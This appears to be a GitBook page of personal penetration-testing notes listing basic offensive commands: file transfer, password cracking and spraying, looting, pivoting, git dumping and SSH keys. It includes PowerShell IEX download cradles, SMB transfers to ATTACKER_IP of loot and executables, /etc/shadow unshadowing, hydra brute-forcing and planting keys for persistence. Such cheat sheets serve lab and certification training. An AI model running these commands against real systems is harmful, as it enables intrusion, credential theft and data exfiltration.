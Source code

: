 ```yaml
---
description: GOTTA STICK TO THE BASICS LAHH
---
```


# Fundamentals

## File Transfer

#### Python HTTP Server

`sudo python3 -m http.server 80`

#### Netcat&#x20;

```
nc -vl [port] > file [receiver]
nc -N [receiver_IP] [receiver_port] < file [sender]
cat [file] | nc [receiver_IP] [receiver_port] - Alternative
```

#### SCP

`scp [-r] <local_path> $user@$ip:/<remote_path> [Upload local to remote]`

`scp [-r] $user@$ip:/<remote_path> <local_path> [Download remote to local]`&#x20;

#### Powershell

{% code fullWidth="false" %}
```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://IP/file', 'file')
download = IEX(New-Object Net.WebClient).downloadString('http://IP_ADDRESS/FILE')
Invoke-WebRequest http://domain.tld/script.ps1 -OutFile C:\Windows\Tasks\script.ps1
```
{% endcode %}

#### Certutil

```
certutil -urlcache -f [path_to_file] [file_name]
```

#### SMB

```bash
#sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
#net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
#copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
#net use \\ATTACKER_IP\share /del

sudo python3 /opt/impacket/examples/smbserver.py [share_name] pwd -smb2support 
#Target
net view \10.10.14.3\
[CMD:] copy [LOOT] \[IP]\[share_name] 
[PowerShell:] Copy-Item [LOOT] \[share]\[LOOT]
```

## Password Cracking/Spraying

{% embed url="https://keydecryptor.com/" %}

{% embed url="https://github.com/openwall/john/blob/bleeding-jumbo/doc/DYNAMIC" %}
Crack salted passwords because hashcat just can't seem to get it
{% endembed %}

```
[file_ext]2john
john [--format=lm] --wordlist=/usr/share/wordlists/rockyou.txt [hash.txt]
unshadow /etc/passwd /etc/shadow > output.db

hydra [-L [userlist.txt] -P [passwordlist.txt]]/[-C [combineduserpassfile]] [IP] http[s]-post-form "/[endpoint]:log=^USER^&pwd=^PASS^[rest of POST body if exist]:F=[error message]"
-C uses file in [user:pass] format and reduces the number of combinations and reduces bruteforce time, eg. retrieve username passwords from a db
patato - brute force tool for various protocols incase hydra doesn't work out (legacy issues?)

.\hashcat64.exe -m [mode] hash.txt rockyou.txt -d 1
```

{% embed url="https://github.com/stealthsploit/OneRuleToRuleThemStill" %}

{% embed url="https://kevinovitz.github.io/TryHackMe_Writeups/passwordattacks/passwordattacks/#online-password-attacks" %}

## Looting

```
cat userlist.txt | tr ' ' '\n' | grep . [Replaces all whitespaces between values with newlines]
grep -r password . 2>/dev/null [searches for the value 'password' recursively across all files]
cut -d "delimiter" -f (field number 1,2 etc.) file.txt

Find directories having a particular name
find / -type d -name [directory] 2>/dev/null

Find directories writable by current user
find / -type d -maxdepth 5 -writable 2>/dev/null

Find passwords in files
grep -Ri 'password' [directory_to_search] 2>/dev/null
```

## Pivoting & Port Forwarding

{% embed url="https://github.com/twelvesec/port-forwarding" %}

{% embed url="https://www.ivoidwarranties.tech/posts/pentesting-tuts/pivoting/proxychains/" %}

{% embed url="https://theyhack.me/Proxychains-Double-Pivoting/" %}

{% embed url="https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740" %}

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption><p>eg. port 3306 running on target but no mysql client, access from kali unless sum like mysqldump is there</p></figcaption></figure>

## Git

{% embed url="https://github.com/internetwache/GitTools" %}

```
https://github.com/arthaud/git-dumper
git status
git diff --cached [file]
git show <hash> [in logs]
git restore [file]
git log
git checkout [hash]
```

## SSH Keys

Every revshell as an actual user -> this is the play

```
KALI
ssh-keygen -t rsa
chmod 700 ~/.ssh; chmod 600 ~/.ssh/id_rsa [kali]

REMOTE
/home/user/.ssh$ echo "[id_rsa.pub value]" > authorized_keys
chmod 700 .ssh; chmod 700 .ssh/authorized_keys
```
